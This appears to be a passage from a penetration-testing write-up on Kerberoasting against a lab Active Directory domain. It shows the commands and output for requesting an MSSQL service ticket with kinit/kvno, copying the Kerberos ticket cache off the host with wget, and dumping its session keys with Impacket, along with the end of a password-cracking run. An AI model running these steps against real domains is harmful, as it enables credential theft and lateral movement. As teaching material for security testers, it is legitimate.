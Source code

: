 ```
1g 0:00:00:00 DONE (2025-06-29 10:58) 100.0g/s 819200p/s 819200c/s 819200C/s diego1..total90
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

### Manual Roasting

If you're ever in a situation where you'd need to "manually" kerberoast, for example if there are tool restrictions and you aren't able to proxy traffic - or if you need to consider operational security but don't have the time to review/understand the code of a tool.

You can simply use `klist` with `kvno` to legitimately request a service ticket.

```
l-a-andersen@staging01:~$ kinit async_testuser-001@ASIA.EARTH.LOCAL
Password for async_testuser-001@ASIA.EARTH.LOCAL: 

l-a-andersen@staging01:~$ kvno MSSQLSvc/SQL01.asia.earth.local
MSSQLSvc/SQL01.asia.earth.local@ASIA.EARTH.LOCAL: kvno = 2

l-a-andersen@staging01:~$ klist
Ticket cache: FILE:/tmp/krb5cc_1753601885_XXXX24jcCs
Default principal: async_testuser-001@ASIA.EARTH.LOCAL

Valid starting       Expires              Service principal
06/29/2025 23:05:47  06/30/2025 09:05:47  krbtgt/ASIA.EARTH.LOCAL@ASIA.EARTH.LOCAL
        renew until 06/30/2025 23:05:45
06/29/2025 23:05:54  06/30/2025 09:05:47  MSSQLSvc/SQL01.asia.earth.local@ASIA.EARTH.LOCAL
        renew until 06/30/2025 23:05:45
```

Next, we can extract this `Kerberos Cache` from `/tmp/krb5cc_1753601885_XXXX24jcCs` and bring it offline:

```
> wget staging01.asia.earth.local:8081/krb5cc_1753601885_XXXX24jcCs
[...snip...]
2025-06-29 11:07:24 (57.9 MB/s) - ‘krb5cc_1753601885_XXXX24jcCs’ saved [3188/3188]

> cp krb5cc_1753601885_XXXX24jcCs /tmp/krb5cc_$(id -u)
klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: async_testuser-001@ASIA.EARTH.LOCAL

Valid starting       Expires              Service principal
06/29/2025 11:05:47  06/29/2025 21:05:47  krbtgt/ASIA.EARTH.LOCAL@ASIA.EARTH.LOCAL
        renew until 06/30/2025 11:05:45
06/29/2025 11:05:54  06/29/2025 21:05:47  MSSQLSvc/SQL01.asia.earth.local@ASIA.EARTH.LOCAL
        renew until 06/30/2025 11:05:45
```

If we run `describeTicket.py` on this cache, we can see that there are 2 tickets in this cache:

```
describeTicket.py /tmp/krb5cc_1000            
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 2
[*] Parsing credential[0]:
[*] Ticket Session Key            : 0f37486e9d3e447491d10ef049f1400e8d67fd41cbb3bbbde32321ab0e11cfcc
[*] User Name                     : async_testuser-001
[*] User Realm                    : ASIA.EARTH.LOCAL
[*] Service Name                  : krbtgt/ASIA.EARTH.LOCAL
[*] Service Realm                 : ASIA.EARTH.LOCAL
[*] Start Time                    : 29/06/2025 11:05:47 AM
```